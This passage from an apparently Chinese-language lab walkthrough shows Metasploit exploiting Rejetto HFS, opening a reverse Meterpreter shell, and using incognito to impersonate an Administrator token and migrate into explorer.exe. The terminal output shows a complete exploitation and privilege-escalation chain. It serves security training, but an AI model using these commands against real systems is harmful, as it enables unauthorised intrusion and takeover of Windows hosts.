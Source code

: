 [FUN WITH INCOGNITO](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/)

账户`ATTACKDEFENSE\Administrator`有`SeImpersonatePrivilege`权限，并且可用的管理员令牌中有`NT AUTHORITY\SYSTEM`。

```
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.16.2:4444 
[*] Using URL: http://0.0.0.0:8080/buVdTKQh0y9
[*] Local IP: http://10.10.16.2:8080/buVdTKQh0y9
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /buVdTKQh0y9
[*] Sending stage (175174 bytes) to 10.0.20.230
[!] Tried to delete %TEMP%\MToZeXgiS.vbs, unknown result
[*] Meterpreter session 2 opened (10.10.16.2:4444 -> 10.0.20.230:49806) at 2022-10-01 08:07:10 +0530
[*] Server stopped.

meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > help
Incognito Commands
==================

    Command              Description
    -------              -----------
    add_group_user       Attempt to add a user to a global group with all tokens
    add_localgroup_user  Attempt to add a user to a local group with all tokens
    add_user             Attempt to add a user with all tokens
    impersonate_token    Impersonate specified token
    list_tokens          List tokens available under current user context
    snarf_hashes         Snarf challenge/response hashes for every token
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
ATTACKDEFENSE\Administrator
NT AUTHORITY\LOCAL SERVICE

Impersonation Tokens Available
========================================
No tokens available

meterpreter > impersonate_token "ATTACKDEFENSE\Administrator"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user ATTACKDEFENSE\Administrator
meterpreter > getuid
Server username: ATTACKDEFENSE\Administrator
meterpreter > getprivs
[-] stdapi_sys_config_getprivs: Operation failed: Access is denied.
meterpreter > pgrep explorer
3508
meterpreter > migrate 3508
[*] Migrating from 1424 to 3508...
[*] Migration completed successfully.
meterpreter > getprivs

Enabled Process Privileges
==========================

```